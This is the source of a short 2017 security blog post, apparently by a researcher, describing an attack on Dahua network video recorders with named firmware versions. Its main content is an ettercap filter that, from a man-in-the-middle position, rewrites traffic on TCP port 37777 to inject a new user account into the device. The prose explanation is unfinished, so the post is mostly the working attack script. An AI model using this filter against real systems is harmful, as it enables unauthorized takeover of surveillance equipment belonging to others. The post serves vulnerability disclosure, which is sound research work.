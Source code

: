 ```yaml
---
layout: post
title:  "Dahua NVR - Exploiting"
date:   2017-03-02 01:00:00 +11005
categories: exploit dahua
---
```


### Introduction

After discovering the Exposures identified here [https://nullku7.github.io/stuff/exposure/dahua/2017/02/24/dahua-nvr.html](https://nullku7.github.io/stuff/exposure/dahua/2017/02/24/dahua-nvr.html)
I decided to try to inject a new user into the system by modifying packets in the TCP Stream


### The Hardware

- NVR Model: DHI-HCVR7216A-S3
- NVR Firmware: 3.210.0001.10 build: 2016-6-6
- Camera Firmware: 2.400.0000.28.R build 2016-3-29
- SmartPSS Software (v 1.16.1 Build Date 2017-01-19)
- gDSS Software for Android

### The method

I will be filling in all the details tomorrow.  If your here now, your too early.  Come back later.

In short.
MitM + ettercap Filter = pwn


ettercap filter
```
if (ip.proto == TCP && tcp.dst == 37777 && DATA.data + 0 == "\xa4" && DATA.data + 8 == "\x1a" ){
    msg("Found One");
    log(DATA.data, "/tmp/data.l");
    replace("\xa4\x00\x00\x00\x00\x00\x00\x00\x1a\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00", "\xa6\x00\x00\x00\x11\x00\x00\x00\x06\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x000:null:ku7:1:1::1");
    log(DATA.data, "/tmp/data.l");
    msg("Done");
}
```
![img]({{ site.github.url }}/images/Screen Shot 2017-03-02 at 12.51.14 am.png){:class="img-responsive"}
![img]({{ site.github.url }}/images/Screen Shot 2017-03-02 at 12.52.38 am.png){:class="img-responsive"}
